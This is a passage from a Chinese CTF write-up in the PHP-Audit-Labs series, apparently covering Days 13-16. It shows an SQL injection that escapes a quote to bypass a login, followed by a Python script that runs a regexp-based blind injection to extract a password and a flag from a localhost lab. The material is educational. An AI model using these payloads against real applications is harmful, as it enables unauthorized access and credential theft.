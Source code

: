 ```php
http://localhost/CTF/?user=\&pwd=||1;%00
对应SQL语句为：
select user from users where user='\' and pwd='||1;'
等价于：
select user from users where user='xxxxxxxxxxx'||1#
```

![20](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day13-16/files/20.png)

根据以上分析，我们可以写出如下python程序：

```python
import string
import requests
import re
char_set = '0123456789abcdefghijklmnopqrstuvwxyz_'
pw = ''
while 1:
    for ch in char_set:
        url = 'http://localhost/CTF/?user=\\&pwd=||pwd/**/regexp/**/"^%s";%%00'
        r = requests.get(url=url%(pw+ch))
        if 'Welcome Admin' in r.text:
            pw += ch
            print(pw)
            break
    if ch == '_': break
r = requests.get('http://localhost/CTF/?user=&pwd=%s' % pw)
print(re.findall('HRCTF{\S{1,50}}',r.text)[0])
```
